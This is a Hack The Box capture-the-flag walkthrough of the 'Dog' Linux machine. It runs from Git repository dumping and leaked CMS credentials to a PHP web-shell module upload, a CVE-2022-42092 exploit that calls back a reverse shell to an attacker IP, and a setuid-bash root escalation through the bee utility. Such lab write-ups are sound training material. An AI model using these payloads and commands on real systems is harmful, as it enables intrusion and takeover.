 
# 🐾 Machine Name: `Dog`
![image (6)](https://github.com/user-attachments/assets/095e5de9-a81b-4e43-aed3-43678e99111c)

**Platform:** Hack The Box  
**IP Address:** `10.10.11.58`  
**Difficulty:** Easy Linux  

---

## 🧭 Overview

Dog is a well-designed box that focuses on web exploitation, Git enumeration, and privilege escalation through a misconfigured PHP utility. Key highlights include Git repository dumping, CMS exploitation (Backdrop CMS), user pivoting via SSH, and privesc via the `bee` PHP utility. This box also taught the value of using `pipx` for clean Python tool installation on Kali Linux.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- dog.htb --min-rate 10000
nmap -p 22,80 dog.htb -sCV -oN nmapscan
```

- Ports open: **22 (SSH)** and **80 (HTTP)**
- CMS detected: **Backdrop CMS**
- `.git/` repo exposed

---

## 🕵️ Web Enumeration

### robots.txt

```bash
curl http://dog.htb/robots.txt
```

- Many interesting disallowed paths → classic CMS footprint.

### Git Repo Dump

Used `pipx` to install `git-dumper` cleanly:

```bash
pipx install git-dumper
```

✅ Very important — `pipx` solved long-standing `pip` issues on Kali.

Dumped Git repo:

```bash
git-dumper http://dog.htb/.git/ dog-git
```

Extracted username + DB credentials:

```bash
tiffany@dog.htb
BackDropJ2024DS2024
```

---

## 🎯 Foothold

### CMS Login

- Used Git creds to login as `tiffany`.
- Found file upload feature → crafted **malicious module**:

```php
<?php
system($_GET['a']);
```

### RCE Achieved

- Confirmed module upload worked.
- Initial reverse shell failed → found CVE:

```text
CVE-2022-42092
https://github.com/ajdumanhug/CVE-2022-42092
```

Used POC:

```bash
python3 CVE-2022-42092.py http://dog.htb tiffany BackDropJ2024DS2024 10.10.14.26 9001
```

✅ Caught reverse shell as **www-data**.

---

## 🚀 Privilege Escalation

### User Pivot

- Discovered users:

```bash
/home/johncusack
/home/jobert
```

- SSH as `johncusack` → reused **DB password**:

```bash
ssh johncusack@dog.htb
```

User flag:

```bash
cat /home/johncusack/user.txt
```

### Privesc via `bee` Utility

- `sudo -l` revealed `sudo /usr/local/bin/bee` allowed.
- Abused bee’s `ev` / `eval` capability:

```bash
sudo /usr/local/bin/bee ev "system('whoami');"
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('chmod u+s /bin/bash');"
```

- Switched to **root** using setuid bash:

```bash
bash -p
whoami
root
cat /root/root.txt
```

---

## 🧠 Lessons Learned

- **pipx** is an excellent tool for managing Python-based pentest tools cleanly in Kali.
- Git repo enumeration remains highly valuable — `.git` often leaks sensitive data.
- CVE chaining is powerful — CMS → RCE → shell.
- Always check `sudo -l` — unusual utilities like `bee` can be leveraged for privesc.
- Maintaining a stable reverse shell while escalating is crucial (saved me when `bee` broke my initial shell).

---

*Writeup by inksec*  
GitHub: [https://github.com/inkedqt](https://github.com/inkedqt)

---
